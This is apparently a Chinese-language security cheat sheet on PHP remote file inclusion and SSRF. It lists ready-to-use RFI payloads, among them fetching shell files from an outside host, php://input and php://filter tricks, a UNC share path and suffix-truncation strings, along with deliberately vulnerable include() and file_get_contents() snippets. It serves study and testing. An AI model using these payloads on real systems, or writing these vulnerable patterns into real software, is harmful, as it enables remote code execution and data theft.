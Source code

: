 ### **RFI 遠端文件包含漏洞**

**Remote File Include**
RFI的危害最大、能實現的作用及利用方式更多

### **普通遠端文件包含**
**需要 allow_url_include=On**
<p>
```<?php include($_GET['file']); ?>```

- 遠端程式碼執行
	- ```/?file=[http|https|ftp]://example.com/shell.txt```
	- 需要 ```allow_url_fopen=On```
- 利用php流input程式碼執行
	- ```/?file=php://input```
- 利用php流filter讀取任意文件
	- ```/?file=php://filter/convert.base64-encode/resource=index.php```
- 利用data URIs
	- ```/?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=```
- 利用XSS執行任意程式碼
	- ```/?file=http://127.0.0.1/path/xss.php?xss=phpcode```
	- 需要 ```allow_url_fopen=On```

### **有限制的遠端文件包含**
```<?php include($_GET['file'] . ".htm"); ?>```
<p>
**需要allow_url_fopen=On並且allow_url_include=On**
- ```/?file=http://example.com/shell```
- ```/?file=http://example.com/shell.txt?```
- ```/?file=http://example.com/shell.txt%23```

<p>

**只需要allow_url_include=On**

- ```/?file=\evilshare\shell.php```

## **SSRF 服務端請求偽造攻擊**

**Server-side Request Forgery**

## **利用ssrf可以實現的攻擊主要有5種**
<p>

1. 可以對外網、伺服器所在內網、本地進行port掃描，獲取一些服務的banner訊息;
2. 攻擊運行在內網或本地的應用程序（比如溢出）;
3. 對內網web應用進行指紋識別，通過訪問默認文件實現;
4. 攻擊內外網的web應用，主要是使用get參數就可以實現的攻擊（比如struts2，sqli等）;
5. 利用file協議讀取本地文件等。

<p>

### **SSRF攻擊可能存在任何語言編寫的應用**

**PHP::file_get_contents()**
```php
<?php
if (isset($_POST['url']))
{
    $content = file_get_contents($_POST['url']);
    $filename ='./images/'.rand().';img1.jpg';
    file_put_contents($filename, $content);
    echo $_POST['url'];
    $img = "<img src=\"".$filename."\"/>";
```